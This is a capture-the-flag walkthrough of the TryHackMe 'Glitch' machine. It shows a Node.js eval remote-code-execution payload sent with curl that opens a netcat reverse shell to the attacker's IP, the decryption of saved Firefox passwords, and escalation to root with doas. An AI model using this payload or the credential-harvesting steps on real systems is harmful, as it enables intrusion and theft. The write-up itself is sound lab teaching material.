







What we can learn from this machine ?
* nodejs
* wfuzz usage
* firefox-decrypter tool usage
* curl 

Let's run a nmap scan first. 
```
# Nmap 7.91 scan initiated Mon Jun 14 14:44:57 2021 as: nmap -sC -sV -p- -oN nmap-allport-scan 10.10.181.74
Nmap scan report for 10.10.181.74
Host is up (0.18s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 14 14:55:04 2021 -- 1 IP address (1 host up) scanned in 607.17 seconds
```
We only got a port 80 open. Let's see whats in there.



We need to add this ip to host file. first I didn't put a ip in host file it gives me a error. Let's run a gobuster let's see what we got.

```
/js                   (Status: 301) [Size: 171] [--> /js/]
/img                  (Status: 301) [Size: 173] [--> /img/]
/secret               (Status: 200) [Size: 724]
/Secret               (Status: 200) [Size: 724
```
Look's like we got two directories with same name. Only difference is lower case and upper case. When you go into the **/Secret** you can see this. :)



Great!! Nothing useful found.

## What is your access token?
When we look into the website source code, 


If we take a close look into that we can see this code.
```js
<script>
      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    </script>
```
We can see that we have javascript function **getAcccess** but it does not appear to be called. Let's open developer tools and in the console tab type getAccess().



Our output :
Object { token: "dGhpc19pc19ub3RfcmVhbA==" }

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $echo "dGhpc19pc19ub3RfcmVhbA==" | base64 -d
this_is_not_real┌─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $
```

After we decode the base64 string we can see it gives **this_is_not_real**.

We need to put the decode value into the cookie.



After the page refresh you can get this hidden web page.



## What is the content of user.txt?
Looking around we have an **/api/items** which we can get with a username/password. If we try to post to this we get the below message.

```bash
┌─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $curl -X POST http://glitch.thm/api/items
{"message":"there_is_a_glitch_in_the_matrix"}┌─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $
```
Let's see if we can find arguments for **items** to take, I use this command to run the wfuzz.

```bash
wfuzz -c -z file,/opt/seclist/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 http://glitch.thm/api/items\?FUZZ\=test
```
Let's see this in action.



OK, we have cmd let take a look at the 500 response. So this looks like a nodejs application. Looking at eval (eval at router.post) it is trying to pass our argument to eval, Doing a quick Insert search verb here for nodejs eval rce I end up at this blog post.

https://medium.com/@sebnemK/\node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44 

Using the method from here with our reverse shell **url encoded** via curl we get a call back. This was mine curl command btw you can also do this with burpsuit.

```bash
┌─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $curl -X POST http://glitch.thm/api/items?cmd=require%28%22child_process%22%29.exec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.9.2.182%204444%20%3E%2Ftmp%2Ff%27%29%0A
vulnerability_exploited [object Object]┌─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $
```
We got our call back and a message **vulnerability_exploited**. let's get our **user flag**.

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $nc -lvnp 4444
listening on [any] 4444 ...
$ python -c 'import pty;pty.spawn("/bin/bash")'
user@ubuntu:/var/web$ cd /home
cd /home
user@ubuntu:/home$ ls
ls
user  v0id
user@ubuntu:/home$ cd user
cd user
user@ubuntu:~$ ls
ls
user.txt
user@ubuntu:~$ cat user.txt
cat user.txt
THM{i_don't_********}
```
## What is the content of root.txt?
After run linpeas I found this,



Nothing really of any help, **doas** requires that we PrivEsc to v0id first. Digging around I find a **.firefox** directory in our home.

```bash
user@ubuntu:~$ ls -la
ls -la
total 52
drwxr-xr-x   9 user user  4096 Jun 14 10:41 .
drwxr-xr-x   4 root root  4096 Jan 15 14:13 ..
lrwxrwxrwx   1 root root     9 Jan 21 09:05 .bash_history -> /dev/null
-rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
drwx------   2 user user  4096 Jan  4 13:41 .cache
drwxr-x---   3 user user  4096 Jun 14 10:41 .config
drwxrwxrwx   4 user user  4096 Jan 27 10:32 .firefox
drwx------   4 user user  4096 Jun 14 10:42 .gnupg
drwxr-xr-x 270 user user 12288 Jan  4 14:07 .npm
drwxrwxr-x   5 user user  4096 Jun 14 10:21 .pm2
drwx------   2 user user  4096 Jan 21 08:47 .ssh
-rw-rw-r--   1 user user    22 Jan  4 15:29 user.txt
```
I copy this off and run tool called firefox decrypt against it see anything we can get in here.

Firefox decrypt tool: https://github.com/unode/firefox_decrypt.git

```bash
┌─[visith@parrot]─[~/CTF/thm/Glitch/.firefox]
└──╼ $./firefox_decrypt.py b5w4643p.default-release
2021-06-14 17:08:12,558 - WARNING - profile.ini not found in b5w4643p.default-release
2021-06-14 17:08:12,558 - WARNING - Continuing and assuming 'b5w4643p.default-release' is a profile location

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
```
We got the password now we can log into the **v0id** user.
```bash
user@ubuntu:~$ su v0id
su v0id
Password: love_the_void
v0id@ubuntu:/home/user$ sudo -l
sudo -l
[sudo] password for v0id: love_the_void
Sorry, user v0id may not run sudo on ubuntu.
v0id@ubuntu:/home/user$ 
```
We can't run sudo here. But we know we can run **doas** like this and we can get into the root user.

```bash
v0id@ubuntu:/home/user$ doas -u root /bin/bash
doas -u root /bin/bash
Password: love_the_void
root@ubuntu:/home/user# cd /root
cd /root
root@ubuntu:~# ls
ls
clean.sh  root.txt
root@ubuntu:~# cat root.txt
cat root.txt
```
Thx for reading!! 

Have a nice day...